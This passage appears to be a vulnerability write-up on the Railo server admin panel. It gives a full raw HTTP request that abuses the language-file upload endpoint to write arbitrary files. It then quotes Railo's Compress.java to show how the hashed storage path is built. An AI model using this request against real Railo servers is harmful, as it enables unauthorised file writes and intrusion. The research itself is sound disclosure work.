I mean, this might as well be an upload form to write arbitrary files.  It's stupid simple to get arbitrary data written to the system:

```
POST /railo-context/admin/overview.uploadNewLangFile.cfm HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:18.0) Gecko/20100101 Firefox/18.0 Iceweasel/18.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8888/railo-context/admin/server.cfm
Connection: keep-alive
Content-Type: multipart/form-data; boundary=AaB03x
Content-Length: 140

--AaB03x
Content-Disposition: form-data; name="newLangFile"; filename="xxxxxxxxx.lang"
Content-Type: text/plain

thisisatest
--AaB03x--
```

The tricky bit is where it's written to; Railo uses a compression system that dynamically generates compressed versions of the web server, contained within `railo-context.ra`.  A mirror of these can be found under the following:

```
[ROOT]\webapps\ROOT\WEB-INF\railo\temp\compress
```

The compressed data is then obfuscated behind two more folders, both MD5s.  In my example, it becomes:

```
[ROOT]\webapps\ROOT\WEB-INF\railo\temp\compress\88d817d1b3c2c6d65e50308ef88e579c\0bdbf4d66d61a71378f032ce338258f2
```

So we cannot simply traverse into this path, as the hashes change every single time a file is added, removed, or modified.  I'll walk the logic used to generate these, but as a precusor, we aren't going to figure these out without some other fashionable info disclosure bug.

The hashes are calculated in `railo-java/railo-core/src/railo/commons/io/res/type/compress/Compress.java`:

```
temp=temp.getRealResource("compress");                
temp=temp.getRealResource(MD5.getDigestAsString(cid+"-"+ffile.getAbsolutePath()));
if(!temp.exists())temp.createDirectory(true);
}
catch(Throwable t){}
}

    if(temp!=null) {
        String name=Caster.toString(actLastMod)+":"+Caster.toString(ffile.length());
        name=MD5.getDigestAsString(name,name);
        root=temp.getRealResource(name);
        if(actLastMod>0 && root.exists()) return;
```

